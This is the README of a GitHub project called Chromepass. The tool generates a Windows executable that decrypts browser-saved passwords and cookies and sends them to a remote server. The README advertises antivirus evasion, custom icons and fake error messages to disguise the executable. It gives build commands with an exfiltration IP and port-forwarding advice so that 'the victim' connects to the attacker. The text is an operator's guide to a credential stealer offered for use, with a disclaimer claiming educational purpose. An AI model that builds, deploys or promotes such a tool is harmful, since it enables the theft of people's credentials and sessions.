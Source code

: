 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://i.imgur.com/WtaFA6c.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Google Chrome, Chromium, Edge, Brave, Opera and Vivaldi saved paswords and cookies
  - Send a file with the login/password combinations and cookies remotely (http server)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message
  - Customize port

---

### AV Detection!  

The new client build methodology, practically ensures a 0% detection rate, even without AV-evasion tactics. If this becomes false in the future, some methods will be implemented to improve AV evasion.  

An example of latest scans (note: within 10-12 hours we go from 0-2 detections to 32 detections so run the analysis on your own builds): 
  * [VirusTotal Scan 1](https://www.virustotal.com/gui/file/a5564cc1990af1c145dc09961877af72a66e7e09d78d78c3c0237bd61f089f0b/detection)   
  * [VirusTotal Scan 2](https://www.virustotal.com/gui/file/e77d55a3d2d88c9693607d94744d1fd08db8e7ea84c1038b73e6149e9fe1b2a3/detection)   

 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.9+

>It recommended to perform the installation inside a Windows VM. Some parts of the installation procedure might be affected by existing configurations. This was tested on a clean Windows 10 VM.

### Installation

Chromepass requires Windows to run! Support for linux and macOS may be added soon.

Clone the repository:
```powershell
git clone https://github.com/darkarp/chromepass
```

Install the dependencies:

The dependencies are checked and installed automatically, so you can just skip to [Usage](#usage). It's recommended that you use a clean VM, just to make sure there are no conflicts.

If you don't have the dependencies and your internet isn't fast, this will take a while. Go grab some coffee.   

---

## Usage

Chromepass is very straightforward. Start by running:
```powershell
python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message An Error has happened
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saved in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.



### Remote Notes
>If you'd like to use this in a remote scenario, you must also perform port forwarding (port 80 by default), so that when the victim runs the client it is able to connect to the server on the correct port.  
For more general information, click [here](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/). If you're still not satisfied, perform a google search.

---

## Manual dependency installation

The automated setup is experimental. For one reason or another, the setup might fail to correctly install the dependencies. If that's the case, you must install them manually.  
Fortunately, there are only 2 dependencies:  
  - [Microsoft Visual C++ Build Tools](https://visualstudio.microsoft.com/thank-you-downloading-visual-studio/?sku=BuildTools&rel=16) (install with the recommended workflows)
  - [Rustup](https://rustup.rs/)

Instead of the build tools you can also just install visual studio but it will take more space.

After successfully installing the build tools, you can simply run the `rustup-init.exe` from [Rustup](https://rustup.rs/)'s website.

This completes the required dependencies and you should be good to go.

---

## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---


## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> AGPL-3.0 </a>

---
[![Code Intelligence Status](https://scrutinizer-ci.com/g/darkarp/chromepass/badges/code-intelligence.svg?b=master)](https://scrutinizer-ci.com/code-intelligence)  

[Python]: <https://www.python.org/downloads/>
